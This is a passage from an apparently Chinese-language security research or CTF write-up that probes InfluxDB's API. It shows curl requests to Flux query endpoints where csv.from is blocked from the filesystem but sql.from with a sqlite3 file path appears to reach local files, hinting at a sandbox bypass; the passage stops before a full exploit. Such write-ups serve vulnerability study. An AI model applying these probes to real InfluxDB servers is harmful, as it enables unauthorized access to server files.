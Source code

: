 - 首先注意到一些调试用的接口，比如`/debug/pprof`，虽然看起来很重磅，但实际看看发现也没什么能利用的点。
- 然后就是`/api/v2/notificationEndpoints`，可以发送HTTP请求。
- 还有一些接口可以执行Flux程序，比如`/api/v2/query`和`/api/v2/tasks`。Flux的标准库[可以干很多事](https://docs.influxdata.com/flux/v0/stdlib/)。文档里到处都在强调，InfluxDB的Flux程序并不能访问文件系统，用了会报错，所以十分滴安全！

![image-20251026024244501](assets/image-20251026024244501.png)

比如说我尝试了一下 `csv.from`，嗯，确实报错：

```bash
$ curl  --header "Authorization: Token token" http://127.0.0.1:8086/api/v2/query?org=org -XPOST --header "Content-Type: application/vnd.flux" --data '
import "csv"
csv.from(file: "/path/to/data-file.csv", mode: "raw")'
{"code":"invalid","message":"error in csv.from(): csv.from() failed to read file: filesystem service is uninitialized"}
```

再尝试一下 `sql.from`，嗯……？怎么500了？

```bash
$ curl  --header "Authorization: Token token" http://127.0.0.1:8086/api/v2/query?org=org -XPOST --header "Content-Type: application/vnd.flux" --data '
import "sql"
sql.from(
    driverName: "sqlite3",
    dataSourceName: "file:/path/to/example.db?cache=shared&mode=ro",
    query: "SELECT * FROM example_table",
)'
{"code":"internal error","message":"An internal error has occurred - check server logs"}
```

与此同时，`docker log`显示：

```
ts=2025-10-25T18:53:26.424410Z lvl=warn msg="internal error not returned to client" log_id=0zoAvUoW000 handler=error_logger error="unable to open database file: no such file or directory"
```
